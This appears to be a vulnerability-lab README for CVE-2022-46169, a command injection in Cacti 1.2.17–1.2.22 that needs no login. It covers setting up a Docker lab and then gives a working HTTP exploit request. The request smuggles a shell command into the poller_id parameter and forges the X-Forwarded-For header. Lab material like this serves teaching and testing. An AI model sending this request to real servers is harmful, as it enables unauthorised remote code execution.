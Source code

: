 # Cacti Unauthenticated Command Injection (CVE-2022-46169)

[中文版本(Chinese version)](README.zh-cn.md)

Cacti is a robust and extensible operational monitoring and fault management framework for users around the world. A command injection vulnerability allows an unauthenticated user to execute arbitrary code on a server running Cacti prior from version 1.2.17 to 1.2.22, if a specific data source was selected for any monitored device.

References:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf>
- <https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A>

## Vulnerability Environment

Execute following command to start a Cacti server 1.2.22:

```
docker-compose up -d
```

After the server is started, you will see the login page at `http://localhost:8080`.

Then login as admin/admin, follow the instructions to initialize the application. Actually, just click the "next button" again and again before you see the success page.

![](1.png)

Before you can exploit this vulnerability, you have to add a new "Graph" because the command injection is occurred not in the default graph type:

![](2.png)

Select the graph type "Device - Uptime", and click the "Create" button:

![](3.png)

## Exploit

After complete the above initialization, you will change your role to a attacker. Just send following request to Cacti server to trigger the command injection attack:

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

![](4.png)

Although no command result in the response, you can find the `/tmp/success` has been touched successfully.

![](5.png)
